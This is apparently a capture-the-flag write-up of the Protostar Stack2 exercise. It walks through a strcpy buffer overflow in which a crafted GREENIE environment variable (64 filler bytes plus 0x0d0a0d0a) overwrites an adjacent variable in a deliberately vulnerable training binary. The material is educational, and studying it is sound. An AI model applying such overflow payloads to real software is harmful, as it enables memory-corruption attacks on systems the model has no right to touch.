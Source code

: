 ```yaml
---
title: Protostar - Stack2
description: My writeup on stack2 challenge.
categories:
 - binary exploitation
tags: binary exploitation, protostar
---
```


You can find the protostar there > [Protostar](https://exploit-exercises.lains.space/protostar/){:target="_blank"}

We have the source code of the binary :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

We have a variable `buffer` with 64bytes buffer, then we have the `getenv` function.

`getenv` -> get an environmental variable

`environmental variable` -> used to pass information into processes

The if statement says that if the `enviromental variable == NULL` will print the error message.

Then we have the `modified` variable with 0 value.

Again the vulnerable `strcpy` function.

`strcpy` ->  doesn’t do any length checking.

Then an if statement that if `modified == 0x0d0a0d0a` we get the flag.

Let's execute the binary.

```bash
user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable
```

We have to set the environmental variable.

```bash
user@protostar:/opt/protostar/bin$ export GREENIE=pwn
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x00000000
```

Perfect, now let's simply add our payload in enviromental variable.

`A * 64 + 0x0d0a0d0a in little endian`

```python
>>> from pwn import *
p>>> p32(0x0d0a0d0a)
b'\n\r\n\r'
```

```bash
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c 'print "A" * 64 + "\n\r\n\r"')
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

We can remove the variable now if we want.

```bash
user@protostar:/opt/protostar/bin$ unset GREENIE
```
